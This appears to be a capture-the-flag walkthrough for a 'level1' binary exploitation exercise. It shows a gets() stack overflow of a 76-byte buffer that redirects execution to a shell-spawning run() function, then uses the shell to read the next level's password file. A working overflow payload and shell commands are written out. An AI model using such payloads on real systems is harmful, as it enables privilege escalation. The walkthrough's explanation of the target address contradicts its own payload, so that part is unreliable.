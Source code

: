 # Walkthrough for level1

Just like level0, you use current level as login (so here : level1). The password is the flag from level0.

The checksec info is basically the same as level 0 :
```
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1



Let's use Ghidra...
There is a "main" function that allocates 76 bytes for an array of char and uses the call gets() on it, and also a "run" function that writes to stdout and opens a shell. Maybe we could use that to our advantage!

Using gdb to disassemble main(), we find that the call address for gets() is 0x8048340.
The idea is : let's overflow the array allocated in main in order to get to the run function and access the shell.
We want to write 76 characters, followed by the address called by gets(), so that we can open the shell. But there is stll an issue : if we call the binary, it will close the shell before we can write everything we need. A python command will be helpful here :
```python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit```
then we pipe the result to the binary ```cat /tmp/exploit - | ./level1 ```, and check we got the right privileges with ```whoami```. If it says "level2", we can peek at the .pass file for the flag !

Now we can escalate to the next level : run ```su level2``` and use the flag as password.



Below is a string of 76 characters :
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
